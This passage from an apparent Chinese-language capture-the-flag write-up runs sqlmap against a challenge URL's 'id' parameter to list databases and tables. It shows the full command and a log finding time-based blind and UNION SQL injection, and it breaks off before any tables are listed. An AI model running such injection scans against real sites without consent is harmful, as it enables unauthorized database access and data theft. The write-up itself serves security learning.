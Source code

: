 将url的地址复制下来进入sqlmap跑一下，

url=`http://hackattack.cn:1227/Va41IcUZk47qSxlUmgJuDe681ryyBajc/?id=1`

在sqlmap中使用命令`sqlmap -u "http://hackattack.cn:1227/Va41IcUZk47qSxlUmgJuDe681ryyBajc/?id=1" --tables --purge`可以查看当前网页的所有数据库以及所有数据库里包含的表名

由于跑完的数据库名和表名过多无法以截图展示，这里就以代码块的形式展现出来

```
[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 10:09:41 /2023-04-19/

[10:09:41] [INFO] purging content of directory '/root/.local/share/sqlmap'...
[10:09:41] [INFO] testing connection to the target URL
[10:09:41] [INFO] checking if the target is protected by some kind of WAF/IPS
[10:09:41] [INFO] testing if the target URL content is stable
[10:09:42] [INFO] target URL content is stable
[10:09:42] [INFO] testing if GET parameter 'id' is dynamic
[10:09:42] [WARNING] GET parameter 'id' does not appear to be dynamic
[10:09:42] [WARNING] heuristic (basic) test shows that GET parameter 'id' might not be injectable
[10:09:42] [INFO] testing for SQL injection on GET parameter 'id'
[10:09:42] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[10:09:42] [WARNING] reflective value(s) found and filtering out
[10:09:42] [INFO] testing 'Boolean-based blind - Parameter replace (original value)'
[10:09:42] [INFO] testing 'MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)'
[10:09:43] [INFO] testing 'PostgreSQL AND error-based - WHERE or HAVING clause'
[10:09:43] [INFO] testing 'Microsoft SQL Server/Sybase AND error-based - WHERE or HAVING clause (IN)'
[10:09:43] [INFO] testing 'Oracle AND error-based - WHERE or HAVING clause (XMLType)'
[10:09:43] [INFO] testing 'Generic inline queries'
[10:09:43] [INFO] testing 'PostgreSQL > 8.1 stacked queries (comment)'
[10:09:43] [INFO] testing 'Microsoft SQL Server/Sybase stacked queries (comment)'
[10:09:43] [INFO] testing 'Oracle stacked queries (DBMS_PIPE.RECEIVE_MESSAGE - comment)'
[10:09:44] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)'
[10:09:54] [INFO] GET parameter 'id' appears to be 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)' injectable 

for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) values? [Y/n]                                                                                                               
[10:10:51] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'                                                                                                                                                                    
[10:10:51] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found                                                                                       
[10:10:51] [CRITICAL] unable to connect to the target URL. sqlmap is going to retry the request(s)                                                                                                                                          
[10:10:51] [WARNING] most likely web server instance hasn't recovered yet from previous timed based payload. If the problem persists please wait for a few minutes and rerun without flag 'T' in option '--technique' (e.g. '--flush-session --technique=BEUS') or try to lower the value of option '--time-sec' (e.g. '--time-sec=2')                                                                                                                                                  
[10:10:51] [INFO] 'ORDER BY' technique appears to be usable. This should reduce the time needed to find the right number of query columns. Automatically extending the range for current UNION query injection technique test               
[10:10:52] [INFO] target URL appears to have 3 columns in query                                                                                                                                                                             
```